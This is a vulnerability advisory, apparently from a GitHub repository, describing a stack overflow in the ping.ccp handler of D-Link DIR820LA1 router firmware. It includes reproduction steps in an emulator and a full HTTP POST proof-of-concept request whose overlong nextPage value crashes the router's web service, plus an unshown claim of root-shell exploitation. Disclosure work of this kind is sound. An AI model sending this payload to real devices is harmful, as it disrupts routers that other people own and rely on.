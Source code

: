 # D-link DIR820LA1_FW105B03 Stack Overflow vulnerability

A stack overflow  vulnerability exists in pingV4Msg of component "/ping.ccp" of D-Link DIR820LA1_FW105B03, allowing an attacker to elevate privileges to root via a crafted payload.

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：http://www.dlinktw.com.tw/techsupport/download.ashx?file=2663

## 1. Affected version

DIR820LA1_FW105B03

## Vulnerability details

The file directory where the vulnerability is located:`/sbin/ncc2`

The `sub_49E5B0` function obtains the content of the variable `nextPage`  from the request of `/ping.ccp`, use strcpy to copy input data. The length of the string is not considered, and the stack overflows when the input is too long.

![vuln1](vuln1.png)

The ccp_ping function references the vulnerable `sub_49E5B0` function when the ccp_act parameter is set to cancelPing.

![vuln2](vuln2.png)



## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the FirmAE simulation firmware DIR820LA1_FW105B03.bin

​	<img src="firmAE.png" alt="firmAE" style="zoom:70%;" /><img src="FirmAE2.png" alt="FirmAE2" style="zoom:70%;" />

2. Attack with the following POC attacks

​	**Attack Vector**：`ccp_act=cancelPing&nextPage=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`

- Run the poc, the router's web service will crash

```xml
POST /ping.ccp HTTP/1.1
Host: 192.168.0.1
Content-Length: 760
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.0.1
Referer: http://192.168.0.1/lan.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: hasLogin=1
Connection: close

ccp_act=cancelPing&nextPage=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell.